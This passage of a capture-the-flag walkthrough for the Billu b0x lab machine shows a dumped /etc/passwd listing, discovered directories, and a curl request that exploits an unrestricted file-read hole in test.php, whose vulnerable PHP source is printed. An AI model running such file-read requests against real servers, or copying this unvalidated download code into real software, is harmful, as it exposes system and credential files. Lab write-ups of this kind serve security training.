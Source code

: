 ```
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:103::/home/syslog:/bin/false
    mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
    messagebus:x:103:106::/var/run/dbus:/bin/false
    whoopsie:x:104:107::/nonexistent:/bin/false
    landscape:x:105:110::/var/lib/landscape:/bin/false
    sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
    ica:x:1000:1000:ica,,,:/home/ica:/bin/bash

```
We see LFI is working thus we look for potentially useful files. Previously from dirb we know we have the following directories __/add, /c, /head, /in, /index, /panel, /show.__
When we examine all the files, four are found to be useful; ___index.php, in.php, c.php, test.php___

We'll start with `test.php.` This is where the primary vulnerability exists. It _only_ allows us to read the files.
Here's the code for `test.php`
```
root@marksmith:~# curl -d "file=test.php" http://192.168.109.146/test
<?php

function file_download($download)
{
if(file_exists($download))
{
header("Content-Description: File Transfer");

header('Content-Transfer-Encoding: binary');
header('Expires: 0');
header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
header('Pragma: public');
header('Accept-Ranges: bytes');
header('Content-Disposition: attachment; filename="'.basename($download).'"');
header('Content-Length: ' . filesize($download));
header('Content-Type: application/octet-stream');
ob_clean();
flush();
readfile ($download);
}
else
{
echo "file not found";
}

}

if(isset($_POST['file']))
{
file_download($_POST['file']);
}
else{

echo '\'file\' parameter is empty. Please provide file path in \'file\' parameter ';
}
```

[1]: https://www.vulnhub.com/entry/billu-b0x,188/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator